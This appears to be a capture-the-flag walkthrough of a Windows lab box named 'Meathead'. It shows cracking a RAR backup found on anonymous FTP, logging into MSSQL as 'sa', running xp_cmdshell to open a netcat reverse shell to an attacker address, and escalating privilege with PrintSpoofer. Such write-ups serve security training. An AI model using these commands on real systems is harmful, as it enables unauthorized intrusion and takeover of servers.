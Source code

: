 # Meathead

### Enumeration

```
1221/tcp open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ...
| 04-27-20  07:02PM                  302 MSSQL_BAK.rar
| ...
```

```
$ rar2john MSSQL_BAK.rar > hash.txt
$ john --format=RAR5 hash.txt --wordlist=~/Desktop/rockyou.txt
[REDACTED]

$ unrar e MSSQL_BAK.rar
```

```
Username: sa
Password: [REDACTED]
```

### Initial Access

```
$ sqsh -S 192.168.99.70:1435 -U sa -P [REDACTED]

1> EXEC master..xp_cmdshell 'whoami'
2> go

        nt service\mssql$sqlexpress
```

smbserver.py - [https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/smbserver.py)

```
$ python smbserver.py share smb
```

nc64.exe - [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)

```
1> EXEC master..xp_cmdshell '\\192.168.49.99\share\nc64.exe -e cmd.exe 192.168.49.99 80'
2> go
```

### PrivEsc

SeImpersonatePrivilege - Enabled

PrintSpoofer.exe - [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

```
C:\>\\192.168.49.99\share\PrintSpoofer.exe -i -c cmd

C:\Windows\system32>
```
